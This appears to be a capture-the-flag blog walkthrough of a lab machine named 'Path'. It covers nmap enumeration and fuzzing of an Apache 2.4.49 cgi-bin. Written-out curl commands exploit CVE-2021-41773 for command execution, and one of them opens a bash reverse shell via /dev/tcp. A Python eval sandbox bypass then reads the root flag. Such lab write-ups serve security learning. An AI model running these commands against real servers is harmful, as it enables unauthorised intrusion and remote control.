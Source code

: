 ```yaml
---
layout: post
author: kohaku
title:  "Path"
date:   2022-03-15 02:21:10 PM -03
category: CrowSec
---
```


# Enumeration

## Nmap

{% highlight text %}
Nmap scan report for 10.9.2.20
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 31:28:28:0d:21:c3:02:13:61:6a:31:cb:17:97:36:64 (RSA)
|   256 1c:00:ec:12:ae:ce:cc:0c:95:a7:b3:fc:20:08:a8:44 (ECDSA)
|_  256 68:04:d8:ef:52:11:e8:a7:98:e4:d5:8f:36:b2:e2:df (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Data web
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods:
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

The machine has two apache and one of them has a vulnerable version `2.4.49`

## Fuzzing port 8080

This vulnerable depends of cgi-bin folder, let’s fuzzing to see if this machine has this folder

{% highlight bash %}
ffuf -u http://10.9.2.20:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
{% endhighlight %}

{% highlight text %}
cgi-bin/                [Status: 403, Size: 199, Words: 14, Lines: 8]
index.html              [Status: 200, Size: 45, Words: 2, Lines: 2]
{% endhighlight %}

Yes, the machine has the folder.

### Exploit

https://github.com/jbovet/CVE-2021-41773

{% highlight bash %}
curl --data "echo;id" 'http://10.9.2.20:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' 
{% endhighlight %}

Reverse shell

- Open a listener port and create a reverse shell

{% highlight bash %}
curl --data "echo;bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'" 'http://10.9.2.20:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
{% endhighlight %}

## Root

{% highlight text %}
sudo -l

User daemon may run the following commands on 203dc28a76f7:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
{% endhighlight %}

{% highlight python %}
import ssl

print('''
  ______                   _____
  / ____/________ _      __/ ___/___  _____
 / /   / ___/ __ \ | /| / /\__ \/ _ \/ ___/
/ /___/ /  / /_/ / |/ |/ /___/ /  __/ /__
\____/_/   \____/|__/|__//____/\___/\___/

''')
print('\n')

crowsec = "SuperSecretKey"

cmd = str(input("[CMD]>"))

if(cmd[0:7] != "crowsec"): -> We need to start the command with this word
    print("[X] Invalid prefix!")
    exit(1)
else:
    while True:
        cmd.replace("__import__","")
        cmd.replace("|","") -> Thisis BAD, we can bypass this using pipe with space. "| " like this
        cmd.replace("system","")
        try:
            result = eval(cmd)
        except:
            result = "ERROR"
        print(result)
        cmd = str(input("[CMD]>"))
        if(cmd[0:7] != "crowsec"):
            print("[X] Invalid prefix!")
            break
{% endhighlight %}

[Bypass Python sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

{% highlight bash %}
sudo python3 /opt/script.py
crowsec| print(open("/root/root.txt").read())
{% endhighlight %}